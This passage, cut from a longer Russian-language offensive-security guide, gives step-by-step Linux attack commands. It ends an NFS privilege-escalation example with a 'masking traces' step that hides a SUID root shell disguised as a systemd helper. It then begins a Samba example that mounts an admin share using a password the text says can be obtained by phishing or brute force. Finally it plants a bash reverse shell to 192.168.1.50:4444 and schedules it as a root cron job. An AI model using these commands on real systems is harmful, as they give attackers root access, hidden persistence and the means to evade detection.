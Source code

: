 **Пояснения:**  
- При входе по SSH выполняется `.profile`  
- SUID-bash запускается с флагом `-p` (сохраняет euid=0)  
- Пользователь получает root-сессию  

---

**Шаг 4: Маскировка следов**
```bash
# Удаление следов на клиенте
sudo umount /mnt/nfs_home
rm -rf /mnt/nfs_home

# На сервере:
# Восстановление оригинального .profile
mv .profile.bak .profile

# Скрытие SUID-шелла
mv .hidden_shell /usr/lib/.systemd-helper
chmod 4755 /usr/lib/.systemd-helper
```

---

### Пример 2: Эксплуатация Samba с правами администратора

**Конфигурация сервера (smb.conf):**
```ini
[backup]
path = /backups
writable = yes
admin users = backup_user
```

**Шаг 1: Обнаружение и монтирование шары**
```bash
# Поиск SMB-шаров
smbclient -L //192.168.1.100 -U "backup_user"
# Sharename       Type      Comment
# ---------       ----      -------
# backup          Disk      System Backups

# Монтирование шары
mkdir /mnt/smb_backup
sudo mount -t cifs //192.168.1.100/backup /mnt/smb_backup -o username=backup_user,password=P@ssw0rd
```

**Пояснения:**  
- `admin users = backup_user` даёт root-права при доступе к шаре  
- Пароль может быть получен через фишинг или брутфорс  

---

**Шаг 2: Создание вредоносной cron-задачи**
```bash
# Создание скрипта reverse shell
cat > /mnt/smb_backup/update_script.sh <<'EOF'
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.50/4444 0>&1
EOF
chmod +x /mnt/smb_backup/update_script.sh

# Добавление cron-задачи
echo "*/5 * * * * root /backups/update_script.sh" > /mnt/smb_backup/cron_task
```
